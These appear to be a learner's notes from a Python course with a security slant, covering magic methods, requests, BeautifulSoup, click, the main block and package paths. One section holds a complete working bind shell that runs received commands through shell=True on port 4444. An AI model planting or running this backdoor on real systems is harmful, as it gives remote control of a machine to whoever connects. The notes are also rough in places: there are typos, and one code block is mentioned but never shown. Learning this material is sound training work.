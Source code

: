 # Notes Python
---

# Classy
Magic Methods are functions - or methods as they are also called in many programming languages - which exist by default and have a default implementation in all classes. This is because of the class hierarchy in Python, where all classes inherit from a base class object ("object" is the name of the base class - slightly confusing perhaps). 

Another two Magic Methods worth mentioning are the __enter__ and __exit__ functions, allowing us to create classes that support using the with keyword. he with keyword will enable us to specify the default functionality of a class for build-up and teardown procedures. For example,  is with open('/path/to/file.txt', 'w') as wr, which opens a file for writing. We can then use wr.write('something') to write "something" to the file. At the end of the with-clause, we do not need to close the output streams to the file - the teardown functionality in the open class takes care of that.

---

# Libraries
To view all classes and functions from library we use dir():

```pyhotn
>>> import time
>>> dir(time)
['CLOCK_BOOTTIME', 'CLOCK_MONOTONIC', 'CLOCK_MONOTONIC_RAW', 'CLOCK_PROCESS_CPUTIME_ID', 'CLOCK_REALTIME', 'CLOCK_TAI', 'CLOCK_THREAD_CPUTIME_ID', '_STRUCT_TM_ITEMS', '__doc__', '__loader__', '__name__', '__package__', '__spec__', 'altzone', 'asctime', 'clock_getres', 'clock_gettime', 'clock_gettime_ns', 'clock_settime', 'clock_settime_ns', 'ctime', 'daylight', 'get_clock_info', 'gmtime', 'localtime', 'mktime', 'monotonic', 'monotonic_ns', 'perf_counter', 'perf_counter_ns', 'process_time', 'process_time_ns', 'pthread_getcpuclockid', 'sleep', 'strftime', 'strptime', 'struct_time', 'thread_time', 'thread_time_ns', 'time', 'time_ns', 'timezone', 'tzname', 'tzset']
>>> 
```

## The Requests Package

The requests library is an elegant and simple HTTP library for Python. From the documenation:
Requests allows you to send HTTP/1.1 requests extremely easily. There’s no need to manually add query strings to your URLs, or to form-encode your POST data. Keep-alive and HTTP connection pooling are 100% automatic, thanks to urllib3.

## The BeautifulSoup Package

Another handy package is the BeautifulSoup library (rather beautifulsoup4). This library makes working with HTML a lot easier in Python. Before, we learned how to query a website and get output back, which could be the raw HTML. Digging through this HTML can be cumbersome if we have to search through textual output by hand. BeautifulSoup turns the HTML into Python objects that are much easier to work with and allows us to analyze the content better programmatically. 

## Regex

The first step was to find all words in the HTML while ignoring HTML tags. If we use the get_text() function we discussed earlier, we can use the regular expression module re to help us. This module has a findall function which takes some string of regex (shorthand for "reggular expression") and some text as parameters and then returns all occurrences in a list. We will use the regex string \w+, which matches all word characters, that is, a-z, A-Z, 0-9, and _. Here is the updated code:

---

# Further Improvements

Recall what we discussed in the beginning about importing modules and that Python scripts are executed from top to bottom, even when imported. This means that if somebody were to import our script, e.g., reuse some of our functions (it could be ourselves), the code would run as soon as imported. The typical way to avoid this is to put all the code that does something into the "main" block. Let us do that:
The "main" Block

```python
if __name__ == '__main__':
    page_url = 'http://target:port'
    the_words = get_all_words_from(page_url)
    top_words = get_top_words_from(the_words)

    for i in range(10):
        print(top_words[i][0])
```python

The most important thing to know about the conditional statement is what we need to type to have the code inside it run whenever we execute it with the Python binary. Please refer to the brilliant answer at [StackOverflow](https://stackoverflow.com/questions/419163/what-does-if-name-main-do/419185#419185) for an in-depth explanation of what is going on here. The critical takeaway is that the code inside this conditional statement only gets executed when the script is run, not imported.

## Accepting Arguments

```shell
python3 wordextractor.py --url http://foo.bar/baz
```

Let us look at one module to help us achieve this: [click](https://click.palletsprojects.com/en/8.1.x/).
To understand what click does, we need to talk about decorators. However, since this is a bit of a mouthful to jump right into, let us leave it as optional reading at the end of this section. All we need to know about click at this point is a few simple click-specific concepts that are easy to memorize. 


## A Simple Click Script 

```python
import click

@click.command()
@click.option('--count', default=1, help='Number of greetings.')
@click.option('--name', prompt='Your name', help='The person to greet.')
def hello(count, name):
    for i in range(count):
        click.echo('Hello %s!' % name)

if __name__ == '__main__':
    hello()
```

---

# A simple Bind Shell
```python
import socket
import subprocess
import click

def run_cmd(cmd):
    output = subprocess.run(cmd, stdout=subprocess.PIPE, stderr=subprocess.PIPE, shell=True)
    return output.stdout

@click.command()
@click.option('--port', '-p', default=4444)
def main(port):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0', port))
    s.listen(4)
    client_socket, address = s.accept()

    while True:
        chunks = []
        chunk = client_socket.recv(2048)
        chunks.append(chunk)
        while len(chunk) != 0 and chr(chunk[-1]) != '\n':
            chunk = client_socket.recv(2048)
            chunks.append(chunk)
        cmd = (b''.join(chunks)).decode()[:-1]

        if cmd.lower() == 'exit':
            client_socket.close()
            break

        output = run_cmd(cmd)
        client_socket.sendall(output)

if __name__ == '__main__':
    main()
```

---

# Managing Libraries in Python (Continued)

The default site-packages/dist-packages locations are the following:

. Windows 10: PYTHON_INSTALL_DIR\Lib\site-packages: C:\Program Files\Python38\Lib\site-packages
. Linux: /usr/lib/PYTHON_VERSION/dist-packages/: /usr/lib/python3/dist-packages


Python path directories:

```python
╰─ python                                                                                 ─╯
Python 3.10.9 (main, Dec 19 2022, 17:35:49) [GCC 12.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import sys
>>> sys.path
['', '/usr/lib/python310.zip', '/usr/lib/python3.10', '/usr/lib/python3.10/lib-dynload', '/home/user/.local/lib/python3.10/site-packages', '/usr/lib/python3.10/site-packages']
>>> 
```


Suppose we wanted to have the packages installed in a specific folder. For example, we wanted to keep all packages related to us inside some /var/www/packages/ directory. In that case, we can have pip install the package and store the content inside this folder with the --target flag, like so:

```shell
badorius@01[/01]$ python3 -m pip install --target /var/www/packages/ requests

Collecting requests
  Using cached requests-2.25.1-py2.py3-none-any.whl (61 kB)
Collecting urllib3<1.27,>=1.21.1
  Downloading urllib3-1.26.4-py2.py3-none-any.whl (153 kB)
     |████████████████████████████████| 153 kB 8.1 MB/s
...SNIP...
```

# Preparing the Virtual Environment


```shell
badorius@01[/01]$ python3 -m venv academy

```



 

